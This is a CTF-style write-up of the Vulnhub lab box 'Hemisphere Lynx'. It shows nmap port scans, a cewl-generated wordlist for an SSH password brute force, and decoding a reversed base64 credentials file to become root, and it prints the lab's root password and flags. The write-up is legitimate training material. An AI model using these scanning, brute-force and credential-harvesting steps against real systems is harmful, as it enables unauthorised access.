 ```yaml
---
title: Vulnhub - Hemisphere Lynx
description: My writeup on Hemisphere Lynx box.
categories:
 - vulnhub
tags: vulnhub cewl hydra ssh base64
---
```


![](https://i.imgur.com/Dayq2fI.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Hemisphere Lynx**  | 
| Series :      | **Hemisphere**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **1 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [d4t4s3c](https://github.com/d4t4s3c){:target="_blank"}     | 
| Download :    | [Hemisphere Lynx](https://www.vulnhub.com/entry/hemisphere-lynx,577/){:target="_blank"}      | 

## Summary

This was a really easy box, pretty basic stuff perfect to pass your time. We generate a custom wordlist with cewl and we run a brute force attack on ssh this way we get the user flag. Root is simply a base64 decoding. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.101                                                                                                                                                               130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00041s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:8F:D2:91 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 26:21:06:43:f3:27:b0:2f:df:eb:37:c0:26:d7:58:2a (RSA)
|   256 cd:a2:e4:63:31:78:79:a1:56:1d:1d:bd:85:ee:6b:fb (ECDSA)
|_  256 dd:bc:7e:1d:a3:ad:ff:aa:1a:3f:d3:68:a4:42:ea:1b (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title:  Lynx 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```
 
Let's start the enumeration with port 80, i don't understand the language of the text but the box desc says "Brute Forze" so we can simply generate a custom wordlist with `cewl` and run a brute force on SSH.

## Shell as johannes

```
$ cewl http://$ip/ | tee wordlist.txt
```

```
$ ssh johannes@$ip                                                                                                                                                               255 ↵
johannes@192.168.1.101's password: 

johannes@Lynx:~$ whoami;id
johannes
uid=1000(johannes) gid=1000(johannes) grupos=1000(johannes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Under `/Desktop` we can see a hidden creds file:

```
johannes@Lynx:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 root     root     4096 oct  1 13:39 .
drwxr-xr-x 10 johannes johannes 4096 oct  1 21:46 ..
-rw-r--r--  1 root     root       37 oct  1 13:39 .creds
```

It contains a base64 string, let's decode it:

```
johannes@Lynx:~/Desktop$ cat .creds 
MjBLbDdpUzFLQ2FuaU84RFdNemg6dG9vcg==
johannes@Lynx:~/Desktop$ cat .creds | base64 -d
20Kl7iS1KCaniO8DWMzh:toor
```

Seems like reversed, let's reverse it.

```
johannes@Lynx:~/Desktop$ cat .creds | base64 -d | rev
root:hzMWD8OinaCK1Si7lK02
```

Now we can simply switch to user root:

```
johannes@Lynx:~/Desktop$ su - root
Contraseña: 
root@Lynx:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

## Reading the flag(s)

```
root@Lynx:~# cat /root/root.txt 
4xKWoV6QGHTetItzD7mI
root@Lynx:~# cat /home/johannes/user.txt 
uZ8iARX2aiDV1bNz7Dx4
```

One of the BEST vulnhub boxes i ever did.

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
